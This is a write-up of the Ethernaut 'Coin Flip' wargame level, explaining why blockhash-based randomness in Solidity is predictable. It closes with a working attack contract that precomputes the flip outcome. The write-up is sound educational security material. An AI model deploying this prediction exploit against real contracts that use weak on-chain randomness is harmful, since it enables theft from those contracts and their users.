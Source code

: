 # hEthernaut 03: Coin Flip - Insecure Randomness

Learn about random numbers in Solidity

## The Task Intro

Generating random numbers in solidity can be tricky. There currently isn't a native way to generate them, and everything you use in smart contracts is publicly visible, including the local variables and state variables marked as private. Miners also have contr``ol over things like blockhashes, timestamps, and whether to include certain transactions - which allows them to bias these values in their favor.

To get cryptographically proven random numbers, you can use [Chainlink VRF](https://docs.chain.link/docs/get-a-random-number), which uses an oracle, the LINK token, and an on-chain contract to verify that the number is truly random.

Some other options include using Bitcoin block headers (verified through [BTC Relay](http://btcrelay.org)), [RANDAO](https://github.com/randao/randao), or [Oraclize](http://www.oraclize.it/)).

## The Task Code

The Coinflip task is a smart contract that has a flip function. It retrieves the blockhash of the block before, casts it to uint256 and devides it by a static huge factor, so the number might be 1.

## The Solution

There is no randomness because another contract can make the same calculation and therefore predict the outcome and always win.

```apache
// SPDX-License-Identifier: MIT
pragma solidity 0.8.17;

interface CoinFlip {
    function flip(bool _guess) external returns (bool);
}

contract coinFlipAttack {
    CoinFlip cf;
    uint256 FACTOR = 57896044618658097711785492504343953926634992332820282019728792003956564819968;

    constructor (CoinFlip _cfa){
       cf = _cfa;
    }

    function attack()external{
        uint256 blockValue = uint256(blockhash(block.number -1));
        uint256 coinFlip = blockValue/FACTOR;

        bool result = coinFlip ==1 ? true: false;
        cf.flip(result);
    }
}
```
